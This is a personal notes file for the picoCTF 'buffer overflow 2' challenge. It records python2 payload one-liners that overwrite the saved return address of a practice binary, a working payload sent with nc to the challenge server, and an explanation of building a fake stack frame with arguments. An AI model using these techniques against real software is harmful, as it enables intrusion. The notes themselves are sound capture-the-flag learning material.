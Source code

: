 # notes.md

- pico ctf BUFFER OVERFLOW 2

- https://www.youtube.com/watch?v=eJ0FmCfD-1g&ab_channel=JohnHammond

above video was used for hint for the "crafted frame requiring RIP" bit


> interesting numbers
```
python2 -c "print('A'*108)" | ./vuln


python2 -c "print('A'*107+'XXXXY' + '\x96\x92\x04\x08' +'\x0d\xf0\xfe\xca'  )" | ./vuln



working RIP ovewrite
python2 -c "print('A'*112 + '\x96\x92\x04\x08' +  '\x0d\xf0\x0d\xf0' +'\x0d\xf0\xfe\xca'  )" | ./vuln 


# still working rip
# now the "args" are at lower mem addresses on the stack
python2 -c "print('A'*104 + '\x0d\xf0\xfe\xca' + '\x0d\xf0\x0d\xf0' + '\x96\x92\x04\x08'  )" | ./vuln

```


## solution

> working remote payload
```
python2 -c "print('A'*112 + '\x9a\x92\x04\x08' + 'CCCC' +'\x0d\xf0\xfe\xca'  +'\x0d\xf0\x0d\xf0'  )" | nc saturn.picoctf.net 52463
```

> explanation of payload
```
first we fill the buffer, clobber EBP for current frame with A
next we write a new RET address onto the saved rip '\x9a\x92\x04\x08' 

Unlike other buffer overflows I have done WE NEED  A STACK FRAME
	this is because we are going to pass arguments to the function that we jump to
	a stack frame EXPECTS
		locals
		saved eIP
		then arguments
	we build a stack frame
		part of the ret is to pop the above into eIP
		therefore at point of our overflow we need to provide the saved eIP for our frame we are buiding
			it doesnt have to be legitimate
			it only needs to be legitimate if we want to do a 2nd return/jump
			thus we can use 'CCCC'
		below our crafted saved eIP we put the arguments to our function call
		first arg is at lowest address (seemingly backward order from our theory, but ignore for now)
```


## lessons learnt
```py
struct.pack('<I', 0x08049296)
python2 -c "print('A'*112 + '\x9a\x92\x04\x08' + 'CCCC' +'\x0d\xf0\xfe\xca'  +'\x0d\xf0\x0d\xf0'  )" 
```
python payloads are best generated with python2, python3 tries to encode it and ruins it
struct.pack will little endian encode a hex integer for you
python payloads can be printed to terminal, they can be copy pasted you just have to trust they are there (because they are)